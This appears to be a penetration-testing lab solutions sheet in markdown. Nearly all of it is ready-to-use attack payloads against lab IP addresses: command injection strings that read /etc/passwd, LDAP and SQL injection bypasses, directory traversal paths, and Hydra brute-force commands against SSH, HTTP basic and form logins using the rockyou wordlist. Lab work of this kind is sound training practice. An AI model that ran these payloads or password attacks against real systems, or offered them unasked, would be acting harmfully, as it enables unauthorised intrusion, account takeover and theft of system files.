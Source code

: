 # Phase III: Vulnerbility discovery & Exploitation
## Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

## LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f

## SQL Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | root'+OR+'1'='1, `root'OR+1=1+--` |
| example&nbsp;2 | root'%09OR'1'='1 |
| example&nbsp;3 | root'/**/OR/**/'1'='1 |
| example&nbsp;4 | 2+OR+1=1 |
| example&nbsp;5 | 2+OR+1=1#123 |
| example&nbsp;6 | 2+OR+1=1#123 |
| example&nbsp;7 | 2%0AOR+1=1# |
| example&nbsp;8 | name\`,IF((SELECT+0x61)=0x61%2Cid%2Cage)+%23 |
| example&nbsp;9 | IF((SELECT+0x61)=0x61%2Cid%2Cage), `IF((SELECT'a')='a',id,age)` |

## Directory Traversal
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | /var/www/files/../../../../../../etc/passwd |
